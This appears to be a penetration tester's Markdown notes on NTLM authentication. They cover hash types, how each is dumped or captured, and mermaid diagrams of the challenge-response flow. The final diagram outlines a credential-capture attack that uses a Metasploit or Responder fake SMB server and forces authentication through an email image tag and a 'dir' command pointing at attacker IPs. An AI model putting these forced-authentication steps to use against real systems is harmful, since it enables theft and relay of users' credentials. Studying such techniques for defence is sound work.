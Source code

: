 NTLM (U:389,445, T:139, 88)
NT LAN Manager
U:389 - LDAP services
U:445 - Microsoft-DS services (SMB over TCP)
T:139 - NetBIOS Session services
T:88 - Kerberos services

# LM/NTLM vs NTLMv1/NTLMv2

| Term                | Usage                                                                                                                                  | Acquisition                                                                          | Attack Potential             |
| ------------------- | -------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------ | ---------------------------- |
| LM Hash             | **Storing** passwords<br>on Windows machines or Domain Controllers.                                                                    | **Dumping**<br>SAM/NTDS(ntds.dit file) Database, LSASS memory on Domain Controllers. | crack, pass-the-hash attacks |
| NT Hash / NTLM Hash | **Storing** passwords<br>on Windows machines or Domain Controllers.                                                                    | **Dumping**<br>SAM/NTDS(ntds.dit file) Database, LSASS memory on Domain Controllers. | crack, pass-the-hash attacks |
| NTLMv1 / Net-NTLMv1 | Challenge-response **network authentication**<br>(client/server authentication)<br>Involves both NT and LM hashes in authentication.   | **Captured**<br>by spoofing using responder or Inveigh.                              | crack, hash relay attacks    |
| NTLMv2 / Net-NTLMv2 | Challenge-response **network authentication**<br>(client/server authentication)<br>Involves only NTLM hash (NTHash) in authentication. | **Captured**<br>by spoofing using responder or Inveigh.                              | crack, hash relay attacks    |

- **Functionality**: Allows applications to act as intermediaries between clients and AD for authentication.

# NetNTLM authentication scheme

```mermaid
sequenceDiagram
    participant Client
    participant Server
    participant DC

	autonumber
	Client-)Server: Authentication Request
	Server-)Client: NTLM CHALLENGE_A
	Note over Client: NTLM Hash<br>+ CHALLENGE_A<br>------------------<br>RESPONSE_A
	Client-)Server:NTLM RESPONSE_A
	Server-)DC: Send CHALLENGE_A+RESPONSE_A
	Note over DC: NTLM Hash<br>+ CHALLENGE_A<br>------------------<br>RESPONSE_B
	Note over DC:RESPONSE_B =? RESPONSE_A
	DC-)Server: Allow/Deny Authentication
	Server-)Client:Allow/Deny Authentication
```


# Server impersonation - Capture the client response (Type 3 message) in NTLMv1  authentication protocols.

```mermaid
sequenceDiagram
    Note over FakeServer: Fake server <br>with a fixed challenge (1122334455667788)<br>created by Attacker<br>using Metasploit module: auxiliary/server/capture/smb<br> or Responder

	FakeServer -) Client: OPTIONAL (FORCED AUTHENTICTION)<br>Atacker use SMB authentication<br>to force the client to connect to the fake server.<br>mail with <img src="\\192.168.102.147\ADMIN$"><br>from terminal dir \\192.168.45.207\x

    Client -) FakeServer: Connection request (SMB authentication)

    Note over FakeServer: Metasploit SMB listener with fixed challenge<br>$ msf> capture/smb<br> or Responnder

    FakeServer -) Client: Challenge 1122334455667788

    Client -) FakeServer: Encrypted challenge using LM/NTLM hash (Type 3 message)
```